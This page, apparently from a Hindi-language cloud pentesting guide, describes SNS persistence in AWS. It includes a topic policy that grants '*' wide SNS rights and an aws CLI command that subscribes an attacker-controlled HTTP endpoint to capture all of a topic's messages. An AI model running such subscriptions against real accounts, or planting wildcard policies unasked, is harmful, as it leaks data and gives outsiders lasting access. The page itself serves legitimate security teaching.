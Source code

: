 # AWS - SNS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## SNS

अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-sns-enum.md
{{#endref}}

### Persistence

जब आप एक **SNS टॉपिक** बनाते हैं, तो आपको IAM नीति के साथ यह बताना होगा कि **किसे पढ़ने और लिखने का अधिकार है**। बाहरी खातों, भूमिकाओं के ARN, या **यहाँ तक कि "\*"** को निर्दिष्ट करना संभव है।\
निम्नलिखित नीति AWS में सभी को **`MySNS.fifo`** नामक SNS टॉपिक में पढ़ने और लिखने की अनुमति देती है:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### Create Subscribers

सभी विषयों से सभी संदेशों को निकालने के लिए हमलावर **सभी विषयों के लिए सब्सक्राइबर बना सकता है**।

ध्यान दें कि यदि **विषय FIFO प्रकार का है**, तो केवल **SQS** प्रोटोकॉल का उपयोग करने वाले सब्सक्राइबर का उपयोग किया जा सकता है।
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{{#include ../../../banners/hacktricks-training.md}}
